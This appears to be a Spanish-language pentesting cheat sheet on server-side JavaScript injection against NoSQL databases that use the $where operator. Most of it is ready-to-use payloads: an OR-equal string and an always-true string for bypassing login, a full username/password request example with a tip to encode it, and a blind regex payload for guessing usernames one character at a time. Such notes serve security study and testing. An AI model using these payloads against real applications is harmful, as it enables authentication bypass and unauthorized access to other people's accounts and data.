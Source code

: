 ## INFO
Un tipo único de NoSQLI es JS injection.

- Consiste en la capacidad de ejecutar código JS en el contexto de la DB.
- Se da cuando la lógica utiliza el operador $WHERE


## OR equal

Podríamos injectar estos códigos en las variables para que la lógica de la DB traiga todos los documentos y quedemos autenticados en el primer hallazgo:

    " || ""=="

#### ejemplo:

    username=" || ""=="

## Always TRUE:

Podríamos indicarle a la lógica que siempre devuelva true, logueandonos incluso con un user que no se encuentra en la DB:


    " || true || ""=="

#### EJEMPLO:
Siempre encodear el envío.

    username=" || true || ""=="&password=x


## Blind SSJI bypass

- funciona igual que el blind Nosqli
- Usualmente cuando logramos loguearnos no nos da el nombre del user.

    " || (this.username.match('^.*')) || ""=="

Podemos entonces empezar a agregar caracteres con el fin de adivinar el user. Sabremos que es el caracter cuando nos loguea.


